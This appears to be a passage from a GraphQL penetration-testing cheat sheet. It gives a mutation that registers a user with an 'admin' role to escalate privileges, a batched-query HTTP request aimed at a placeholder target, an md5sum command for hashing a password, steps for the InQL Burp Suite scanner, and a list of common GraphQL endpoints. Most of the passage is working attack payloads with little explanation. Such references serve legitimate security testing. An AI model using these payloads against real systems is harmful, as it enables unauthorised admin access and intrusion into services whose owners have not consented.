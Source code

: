 ### Privilege Escalation via Mutation
```graphql
mutation {
  registerUser(input: {username: "adminuser", password: "MD5_HASH", role: "admin", msg: "Hacked!"}) {
    user {
      username
      password
      msg
      role
    }
  }
}
```

## Batching Queries

### Multiple Queries in Single Request
```http
POST /graphql HTTP/1.1
Host: TARGET
Content-Type: application/json

[
  {
    "query": "{user(username: \"admin\") {uuid}}"
  },
  {
    "query": "{post(id: 1) {title}}"
  }
]
```

## Utility Commands

### Generate MD5 Hash for Password
```bash
echo -n 'password' | md5sum
```

## Burp Suite Extensions

### InQL Actions
- Right-click GraphQL request → Extensions → InQL - GraphQL Scanner → Generate queries with InQL Scanner
- View generated queries and mutations in InQL tab

## Common Endpoints
- `/graphql`
- `/api/graphql`
- `/graphiql` (GraphQL IDE interface)
